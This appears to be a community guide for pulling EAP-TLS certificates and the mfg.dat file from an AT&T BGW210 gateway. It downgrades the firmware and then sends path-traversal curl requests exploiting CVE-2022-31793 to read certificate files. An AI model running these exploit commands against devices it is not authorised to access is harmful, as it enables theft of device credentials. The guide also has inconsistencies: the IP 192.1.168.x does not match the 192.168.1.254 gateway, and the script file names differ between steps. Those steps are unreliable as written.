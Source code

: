Credits
-------

*   [8311 Discord Server](https://www.google.com/url?q=https://discord.gg/c8HGajUEGk&sa=D&source=editors&ust=1687215678125409&usg=AOvVaw2xWDtEEMBc1eTzP0JJGykH)

*   @ChrisEric1 CECL#5569 – 3.18.2\_en.bin + CVE tip
*   @tofu#6072 – CVE tip
*   @redbeard#3977 – Documenting their experiment with this exploit
*   @up\_n\_atom – \*.der file locations
*   @jack2333 – Helped troubleshooting, lots of suggestions
*   @ibutsu – Recursive script suggestion

*   [Derek Abdine – CVE Write-up](https://www.google.com/url?q=https://derekabdine.com/blog/2022-arris-advisory.html&sa=D&source=editors&ust=1687215678127846&usg=AOvVaw0qyBoJQ8UzchhtxQIWeiYZ)
*   [devicelocksmith](https://www.google.com/url?q=https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html&sa=D&source=editors&ust=1687215678128482&usg=AOvVaw2vYXRfD6_jb1JcwQZO8Eta) – mfg\_dat\_decode

Prerequisites
-------------

1.  BGW210 on 4.22.5 or lower, untested on BGW320
2.  Computer with an ethernet port
3.  Ability to copy paste

Resources
---------

1.  [3.18.2\_en.bin](https://www.google.com/url?q=http://gateway.c01.sbcglobal.net/firmware/ALPHA/210/001E46/BGW210-700_3.18.2/spTurquoise210-700_3.18.2_ENG.bin&sa=D&source=editors&ust=1687215678129995&usg=AOvVaw2FjKTrvz-_LPRgENR_-jXX) (gateway.c01.sbcglobal.net/firmware/ALPHA/210/001E46/BGW210-700\_3.18.2/spTurquoise210-700\_3.18.2\_ENG.bin)
2.  [mfg\_dat\_decode](https://www.google.com/url?q=https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html&sa=D&source=editors&ust=1687215678130742&usg=AOvVaw3V76euGKX0nJmFGMdM0vpK)  
    Necessary for decoding mfg.dat for certs
3.  [mfg\_dat\_flood.sh](https://www.google.com/url?q=https://pastebin.com/7FQxXPdV&sa=D&source=editors&ust=1687215678131527&usg=AOvVaw2687TYyP390-ykP2y_7EpE) (Optional)  
    Runs a curl get request recursively until success or your shell crashes. It can also be done manually by hand but I can’t cover that since I had no success. I ran the script with Ubuntu through WSL.
4.  [CVE](https://www.google.com/url?q=https://derekabdine.com/blog/2022-arris-advisory.html&sa=D&source=editors&ust=1687215678132252&usg=AOvVaw2wDxHDJaiJrPIaaQiQileT) (Optional)  
    In depth explanation of the exploit.[Vulnerability #1](https://www.google.com/url?q=https://derekabdine.com/blog/2022-arris-advisory.html%23vulnerability-1-cve-2022-31793-path-traversal-from-the-filesystem-root&sa=D&source=editors&ust=1687215678132670&usg=AOvVaw1BsZMwa9EPH4iq5v-UgJ1O), [methodology](https://www.google.com/url?q=https://derekabdine.com/blog/2022-arris-advisory.html%23decrypting-secrets&sa=D&source=editors&ust=1687215678133039&usg=AOvVaw3H1KXtYfubMqvbpZZBivDt) (bullet point “Obtaining the certificate via reboot & exploitation”

Steps
-----

1.  Assign the following static IP to your computer  
    Windows:  
    Settings → Network & Internet → Ethernet → {your ethernet connection} → Edit button under IP Settings → Change Automatic (DHCP) to Manual → Turn on IPv4 → Fill in:

*   IP address:  
    192.1.168.x (i.e., 192.1.168.200)  
    
*   Subnet mask:  
    255.255.255.0  
    OR  
    Subnet prefix length: 24
*   Gateway: 192.168.1.254

2.  Connect to the BGW210  
    Unplug ONT port on BGW210 → plug in an ethernet cable from your computer to one of the BGW210’s ethernet ports → plug in BGW210’s power cable
3.  Navigate to 192.168.1.254 (BGW210 GUI) → Diagnostics → Update → Upload 3.18.2\_EN.bin → Wait for the update to complete
4.  In your computer’s terminal:

*   Create the script file with your text editor of choice:  
    nano flood.sh
*   Paste the script
*   Save and exit nano (ctrl+x → ctrl+y → enter)
*   Make script executable:  
    chmod +x fetch\_file.sh

5.  Once the update is done and the modem is back online, unplug the modem, wait a few seconds, and plug it back in.
6.  In your computer’s terminal:

*   If using the script, type the following then hit enter:  
    ./flood.sh

7.  If you end up with a mfg.dat file bigger than 200kb or so, it likely worked. If not, unplug and replug the modem. The script will still be running, but you can stop it (ctrl+C) and start it again (./flood.sh) too.
8.  Repeat until successful. I was running 6 tabs at once.
9.  After successfully getting the mfg.dat file, stop the script.
10.  Ensure the modem is powered on, then run each of these commands through the terminal:

*   curl --ignore-content-length -X"GET a/etc/rootcert/attroot2031.der" http://192.168.1.254:80 -o attroot2031.der
*   curl --ignore-content-length -X"GET a/etc/rootcert/attsubca2021.der" http://192.168.1.254:80 -o attsubca2021.der
*   curl --ignore-content-length -X"GET a/etc/rootcert/attsubca2030.der" http://192.168.1.254:80 -o attsubca2030.der

11.  Copy the mfg.dat and all three \*.der files to the same directory/folder as mfg\_dat\_decode
12.  Run mfg\_dat\_decode
13.  Certs (hopefully) obtained
